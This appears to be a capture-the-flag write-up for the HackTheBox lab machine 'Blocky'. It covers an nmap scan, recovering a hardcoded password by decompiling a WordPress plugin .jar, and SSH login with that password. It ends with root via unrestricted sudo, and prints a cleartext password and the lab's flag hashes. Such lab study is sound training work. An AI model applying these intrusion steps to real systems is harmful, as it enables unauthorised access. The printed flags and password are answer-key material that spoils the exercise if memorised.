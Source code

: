 ```yaml
---
title: HackTheBox - Blocky
date: 2020-12-22 00:17:00 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, minecraft server, wordpress, java, decompilation, jd-gui, sudo misconfiguration, writeup, oscp-prep]
image: /assets/img/htb/machines/linux/easy/blocky/Blocky.png 
---
```


## Foothold

### Nmap scan (open ports)

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Blocky-full-port-scan.txt 10.10.10.37
Nmap scan report for 10.10.10.37
Host is up (0.12s latency).
Not shown: 65530 filtered ports
PORT      STATE  SERVICE   VERSION
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

### Apache httpd 2.4.18  (port 80)

If we click on the first post on [http://10.10.10.37/](http://10.10.10.37/), we are redirected to a second page where we see a username (`notch`):

![notch](/assets/img/htb/machines/linux/easy/blocky/notch.png)

> Since it's a wordpess site we could also query [http://10.10.10.37/?author=1](http://10.10.10.37/?author=1).

With `dirb` we can discover some interesting directories:  

![dirb](/assets/img/htb/machines/linux/easy/blocky/dirb.png)

On [http://10.10.10.37/plugins/](http://10.10.10.37/plugins/) there are two `.jar` files:

![plugins](/assets/img/htb/machines/linux/easy/blocky/plugins.png)

**JAR** stands for **J**ava **A**rchive **D**ata. We can decompile these files with [`jd-gui`](http://java-decompiler.github.io/):

![jd-gui](/assets/img/htb/machines/linux/easy/blocky/jd-gui.png)

Is this a password?! Let's try to log in to SSH with username `notch` and the password we just found `8YsqfCTnvxAUeduzjNSXe22`

![shell](/assets/img/htb/machines/linux/easy/blocky/shell.png)

Bingo, we have a shell!

## User

```bash
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5
```

The first thing to check is: _in which groups is the user I just owned?_ 

```bash
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

As we can see, he's part of the `sudo` users. Let's see what we can run with `sudo`:

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

Everything! Are you serious notch?!

![are you serious gif](https://i.gifer.com/2yUm.gif)

## Root

```
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# cd /root
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt
0a9694a5b4d272c694679f7860f1cd5f
```

___

# Useful links

- [Reconnoitre](https://github.com/codingo/Reconnoitre)
- [wpscan](https://github.com/wpscanteam/wpscan)
- [`jd-gui`: a Java decompiler](http://java-decompiler.github.io/)
- [Best practices for hardening sudo?](https://security.stackexchange.com/questions/135352/best-practices-for-hardening-sudo)
